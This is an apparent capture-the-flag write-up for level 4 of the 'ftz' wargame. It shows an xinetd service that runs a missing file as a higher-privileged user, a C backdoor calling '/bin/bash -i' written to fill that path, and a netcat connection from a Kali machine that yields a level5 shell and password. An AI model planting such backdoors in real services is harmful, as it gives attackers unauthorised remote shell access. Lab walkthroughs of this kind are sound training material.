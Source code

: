 # Level4

## This level's goal

- xinetd
- Remote backdoor

***
```
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

```
[level4@ftz tmp]$ ls -al /etc/xinetd.d | grep level4
-r--r--r--    1 root     level4        171 Aug 19  2014 backdoor
```

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

```
[level4@ftz level4]$ cat /etc/services | grep finger
finger          79/tcp
finger          79/udp
cfinger         2003/tcp                        # GNU Finger
```

```
[level4@ftz level4]$ netstat -an | grep :79
tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN
```

```
[level4@ftz level4]$ ls -l /home/level4/tmp/backdoor
ls: /home/level4/tmp/backdoor: No such file or directory
```

There is no backdoor file, so you need to make a backdoor that you can exploit

```
[level4@ftz tmp]$ cat backdoor.c
#include <stdlib.h>

int main()
{
        system("/bin/bash -i");
        return 0;
}
[level4@ftz tmp]$ gcc -o backdoor backdoor.c
[level4@ftz tmp]$ chmod 777 backdoor
```

```
[level4@ftz tmp]$ finger level4@localhost
/bin/bash: line 1: level4
: command not found
id
my-pass
```

This is not working, cuz this level's concept is remote backdoor.

so you need to use nc(netcat) or telent command in remote

```
┌──(root💀kali)-[~]
└─# nc 192.168.10.240 79
bash: no job control in this shell
stty: standard input: Invalid argument
[level5@ftz /]$ id
uid=3005(level5) gid=3005(level5)
[level5@ftz /]$ my-pass

Level5 Password is "what is your name?".
```
